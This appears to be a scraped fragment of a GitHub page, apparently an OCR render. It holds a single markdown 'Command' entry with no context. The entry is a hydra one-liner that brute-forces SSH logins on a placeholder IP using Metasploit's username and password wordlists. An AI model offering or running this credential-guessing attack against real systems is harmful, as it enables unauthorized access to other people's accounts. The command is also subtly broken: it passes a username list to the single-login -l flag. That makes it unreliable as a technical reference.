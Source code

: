 # Command
`hydra -l /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords <ip> -t 4 ssh`
